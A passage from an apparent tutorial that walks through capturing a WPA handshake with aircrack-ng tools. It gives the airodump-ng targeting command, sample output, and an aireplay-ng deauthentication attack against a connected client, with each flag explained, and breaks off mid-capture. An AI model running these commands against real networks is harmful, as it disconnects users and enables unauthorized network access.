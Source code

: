 This command targets a specific wi-fi AP, whose BSSID you mention after
the keyword "---bssid". You should also mention the channel number of
the wi-fi AP. In our case, it is 5. Mention the channel number in the
place of 'X' after the keyword "-c".

For example, once I fill in the BSSID and channel number, the command
should look like this:
```sh
sudo airodump-ng --bssid B4:3D:08:52:54:D0 -c 5 -w capture wlan0
```
After you have filled in the data, press enter and it should start
scanning for devices that are connected to that specific wi-fi AP. The
output would look something like this:

CH 11 \]\[ Elapsed: 3 mins \]\[ 2025-03-29 05:29

BSSID PWR RXQ Beacons #Data, #/s CH MB ENC CIPHER AU

B4:3D:08:51:52:D9 -41 96 2194 278 0 11 270 WPA2 CCMP PS

BSSID STATION PWR Rate Lost Frames Notes

B4:3D:08:51:52:D9 AA:1B:9F:D0:BA:9B -58 1e- 1e 169 1637

Now, open another terminal. We need to deauth (disconnect) the device
that is connected to the target network, in this case, it is
AA:1B:9F:D0:BA:9B. So, to deauth this device from the wi-fi AP, enter
the following command:
```sh
sudo aireplay-ng \--deauth 10 -a B4:3D:08:51:52:D9 -c AA:1B:9F:D0:BA:9B wlan0
```
aireplay-ng : It is a tool that's part of the aircrack-ng suite, which
is used to inject packets, in this case, send a deauth packet to the
device connected to the wi-fi AP.

\--deauth 10 : It specifies to the aireplay-ng tool that we want to
conduct a deauth attack. The number 10 indicates the number of
deauthentication packets that we wish to send.

-a B4:3D:08:51:52:D9 : It indicates the BSSID of the wi-fi AP

-c AA:1B:9F:D0:BA:9B : It indicates the MAC address of the device we
wish to disconnect from the wi-fi AP

Wlan0 : This specifies the wireless network interface that we wish to
use in order to perform the deauthentication attack.

Once this command is executed, you will see a long list of deauth
packets that are being sent to the target device. You can check the
device to see if it is being disconnected. After it gets disconnected,
it will try to reconnect and that is when we will capture the handshake.
Once the handshake is captured, the result will look something like
this:

05:25:34 Created capture file \"capture-01.cap\".

CH 11 \]\[ Elapsed: 3 mins \]\[ 2025-03-29 05:29 \]\[ WPA handshake:
B4:3D:08:51:
